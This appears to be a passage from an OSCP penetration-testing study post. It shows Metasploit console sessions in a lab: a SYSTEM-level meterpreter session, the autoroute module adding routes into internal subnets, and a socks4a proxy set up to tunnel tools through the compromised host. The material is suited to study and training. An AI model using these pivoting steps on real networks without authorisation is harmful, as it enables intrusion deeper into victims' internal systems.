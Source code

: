 msf5 post(multi/manage/autoroute) > sessions -l

Active sessions
===============
Id Name Type Information Connectio
n
-- ---- ---- ----------- ---------
-
4 meterpreter x86/windows NT AUTHORITY\SYSTEM @ WIN10-X86 10.11.0.4:5555 ->
10.11.0.22:1883 (10.11.0.22)

msf5 post(multi/manage/autoroute) > set session 4
session => 4

msf5 post(multi/manage/autoroute) > exploit

[!] SESSION may not be compatible with this module.
[*] Running module against CLIENT251
[*] Searching for subnets to autoroute.
[+] Route added to subnet 192.168.1.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 10.11.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 169.254.0.0/255.255.0.0 from Fortinet virtual adapter.
[*] Post module execution completed

msf5 post(multi/manage/autoroute) >

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/22/25.jpg)

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/22/26.jpg)


 We can also combine routes with the server/socks4 a module to configure a SOCKS proxy.

 This allows applications outside the Metasploit Framework to tunnel through the pivot. 
 
 To do so, we first set the module to use the localhost for the proxy:

msf5 post(multi/manage/autoroute) > use auxiliary/server/socks4a

msf5 auxiliary(server/socks4a) > show options

Module options (auxiliary/server/socks4a):
 Name Current Setting Required Description
 ---- --------------- -------- -----------
 SRVHOST 0.0.0.0 yes The address to listen on
 SRVPORT 1080 yes The port to listen on.
Auxiliary action:
 Name Description
 ---- -----------
 Proxy
 
msf5 auxiliary(server/socks4a) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1

msf5 auxiliary(server/socks4a) > exploit -j

[*] Auxiliary module running as background job 0.
[*] Starting the socks4a proxy server
